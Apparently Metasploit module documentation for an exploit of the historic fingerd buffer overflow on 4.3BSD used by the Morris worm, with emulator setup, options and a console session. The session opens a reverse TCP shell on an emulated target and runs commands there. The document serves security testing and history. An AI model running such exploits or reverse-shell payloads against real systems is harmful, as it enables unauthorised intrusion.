 ## Vulnerable Application

### Description

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets `fingerd` version 5.1 from 1985-06-06.

## Options

### RPORT

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

### PAYLOAD

Set this to a BSD VAX payload. Currently, only
`bsd/vax/shell_reverse_tcp` is supported.

## Scenarios

### `fingerd` 5.1 on 4.3BSD

```
msf5 > use exploit/bsd/finger/morris_fingerd_bof
msf5 exploit(bsd/finger/morris_fingerd_bof) > options

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   79               yes       The target port (TCP)


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85


msf5 exploit(bsd/finger/morris_fingerd_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58015) at 2020-02-06 15:45:33 -0600

who am i
nobody   tty??   Feb  6 13:45
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
